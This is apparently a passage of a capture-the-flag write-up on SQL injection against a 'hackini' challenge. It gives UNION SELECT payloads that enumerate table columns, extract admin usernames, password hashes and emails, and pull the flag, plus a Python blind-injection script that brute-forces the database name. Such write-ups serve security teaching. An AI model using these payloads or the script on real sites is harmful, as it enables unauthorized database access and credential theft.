 ### Step 3: Extract Table Structure

```sql
-- Get column names for users table
' UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name='users' --
# Columns: id, username, password, email, role

-- Get column names for admin_secrets table
' UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name='admin_secrets' --
# Columns: id, secret_key, flag
```

## Data Extraction

### Extract User Credentials

```sql
-- Get admin credentials
' UNION SELECT username,password,email FROM users WHERE role='admin' --
# Result: admin:$2b$12$hash..., admin@hackini.dz
```

### Extract the Flag

```sql
-- Get the flag from admin_secrets
' UNION SELECT flag,null,null FROM admin_secrets --
# Result: hackini{sql_1nj3ct10n_w4f_byp4ss_m4st3r}
```

## Advanced Exploitation: Blind SQL Injection

For scenarios where output isn't directly visible:

```python
#!/usr/bin/env python3
import requests
import string

def blind_sqli(url, payload_template):
    charset = string.ascii_letters + string.digits + '_{}'
    result = ""

    for pos in range(1, 50):  # Assume max length 50
        for char in charset:
            payload = payload_template.format(pos=pos, char=ord(char))
            response = requests.get(url, params={'q': payload})

            if "Product found" in response.text:
                result += char
                print(f"Found: {result}")
                break
        else:
            break

    return result

# Extract database name
url = "http://challenge.hackini.dz/search"
payload = "' AND (SELECT ASCII(SUBSTRING(database(),{pos},1)))={char} --"
db_name = blind_sqli(url, payload)
print(f"Database: {db_name}")
```
